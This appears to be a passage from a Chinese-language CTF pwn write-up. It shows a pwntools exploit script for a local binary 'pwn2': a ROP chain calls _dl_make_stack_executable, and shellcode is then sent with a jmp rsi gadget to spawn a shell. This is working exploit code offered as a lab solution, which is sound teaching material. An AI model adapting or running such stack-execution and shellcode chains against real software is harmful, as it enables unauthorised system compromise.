接下来程序跳到 vul 函数，读入 shellcode 到栈上并执行，即可获得 shell。exp 如下所示：

```py
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

io = process('./pwn2')
elf = ELF('./pwn2')

vul = 0x4009E7
write = 0x4009DD

pop_rdi = 0x4014c6
pop_rsi = 0x4015e7
pop_rdx = 0x442626
jmp_rsi = 0x4a3313
mov_rdi_esi = 0x47a3b3

payload  = "A"*0x88
payload += p64(pop_rsi) + p64(7) + p64(pop_rdi) + p64(elf.sym['__stack_prot']) + p64(mov_rdi_esi)
payload += p64(pop_rdi) + p64(elf.sym['__libc_stack_end']) + p64(elf.sym['_dl_make_stack_executable'])
payload += p64(vul)

io.sendlineafter('welcome~\n', payload)

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x88, "A") + p64(jmp_rsi)

io.sendline(payload)

io.interactive()
```


## 参考资料
